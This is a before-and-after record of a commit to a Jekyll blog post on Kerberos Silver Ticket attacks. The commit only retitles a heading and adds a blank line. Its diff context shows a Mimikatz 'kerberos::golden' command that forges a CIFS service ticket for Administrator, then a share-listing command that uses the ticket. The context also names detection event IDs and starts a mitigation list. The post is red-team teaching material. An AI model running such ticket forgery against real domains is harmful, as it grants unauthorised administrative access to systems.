

Before and after one commit to NoRed0x/NoRed0x.github.io, a Jekyll site: the page built from _posts/Red-Teaming/2021-07-14- Kerberos-Attacks-Silver-Ticket.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update 2021-07-14- Kerberos-Attacks-Silver-Ticket.md

````diff
--- a/_posts/Red-Teaming/2021-07-14- Kerberos-Attacks-Silver-Ticket.md
+++ b/_posts/Red-Teaming/2021-07-14- Kerberos-Attacks-Silver-Ticket.md
@@ -90,7 +90,7 @@ klist
 <img src="/img/silver/klist.PNG" alt="Getting-gz" width="1000" height="200">
 
 
-save in file
+## save ticket in file
 ```
 kerberos::golden /user:Administrator /domain:karim.net /rc4:de26cce0356891a4a020e7c4957afc72 /target:domainAD.karim.com /sid:S-1-5-21-750046758-1551849808-2392872301 /service:CIFS /id:500
 ```
@@ -120,6 +120,7 @@ dir \\domainAD.karim.net\c$
    * 4624 Account Logon
    * 4634 Account Logoff
    * 4672 Admin Logon
+
 ## Mitigate
 several mitigations exist that can make it harder for an adversary to compromise service account password hashes.
 * Protect assets (especially the domain controller)
````
